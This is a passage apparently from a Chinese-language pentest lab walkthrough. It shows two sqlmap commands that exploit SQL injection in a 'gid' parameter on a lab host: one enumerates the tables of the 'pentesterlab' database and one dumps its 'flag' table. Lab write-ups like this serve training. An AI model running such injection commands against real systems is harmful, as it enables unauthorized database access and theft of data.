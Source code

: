 
获取当前数据库的所有表

```text
python sqlmap.py -u http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid=1 -p gid -D  pentesterlab --tables
```

![&#x83B7;&#x53D6;&#x5F53;&#x524D;&#x6570;&#x636E;&#x5E93;&#x540D;&#x79F0;](../.gitbook/assets/1_6.png)

获取`flag`表中的值

```text
python sqlmap.py -u http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid=1 -p gid -D pentesterlab -T flag --dump
```
